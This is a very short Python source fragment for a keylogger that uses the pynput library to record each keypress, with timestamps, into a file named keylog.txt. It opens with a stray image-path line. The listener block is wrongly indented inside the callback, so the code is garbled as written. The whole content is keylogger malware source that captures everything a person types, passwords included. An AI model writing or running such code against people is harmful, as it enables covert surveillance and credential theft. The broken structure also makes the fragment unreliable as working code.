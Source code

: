 # b
 from pynput.keyboard import Key, Listener
 import logging
 logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format=" %(asctime)s -%(message)s")
 def on_press(key):
     logging.info(str(key))
     with Listener(on_press=on_press) as listener :
         listener.join()



